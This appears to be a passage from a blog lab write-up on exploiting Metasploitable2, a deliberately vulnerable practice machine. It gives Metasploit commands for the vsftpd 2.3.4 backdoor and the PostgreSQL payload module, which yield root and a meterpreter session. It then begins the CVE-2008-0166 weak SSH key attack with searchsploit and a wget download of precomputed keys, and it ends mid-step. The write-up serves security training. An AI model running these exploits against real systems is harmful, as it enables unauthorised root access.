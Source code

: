
### vsftpd exploit (port 21):

search vsftpd

{% img  /images/blog/misc/metasploitable2/Selection_002.png   [title manually exploit [alt text]] %}


```
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) > set rhost 192.168.79.179
msf exploit(vsftpd_234_backdoor) > exploit 
```

get the root:

{% img  /images/blog/misc/metasploitable2/Selection_003.png   [title manually exploit [alt text]] %}



### postgresql exploit

```
msf > use exploit/linux/postgres/postgres_payload
msf exploit(postgres_payload) > set rhost 192.168.79.179
msf exploit(postgres_payload) > exploit
```
get meterpreter:

{% img  /images/blog/misc/metasploitable2/Selection_004.png   [title manually exploit [alt text]] %}


### SSH exploit (port 22):

Getting access to a system with a writeable filesystem

[add_ssh_key.py](https://github.com/wg135/script/blob/master/add_ssh_key.py)

Since the nmap shows the openssh version is 4.7. I googled it and find it use Openssl 0.9.8g

search openssl exploit:

`searchsploit openssl`

{% img  /images/blog/misc/metasploitable2/Selection_019.png   [title manually exploit [alt text]] %}

Looks like these exploits can be used. The vulnerability is CVE-2008-0166.

I use 5720.py.

First, download precalculated vulnerable keys

`wget https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/5622.tar.bz2`

unzip it

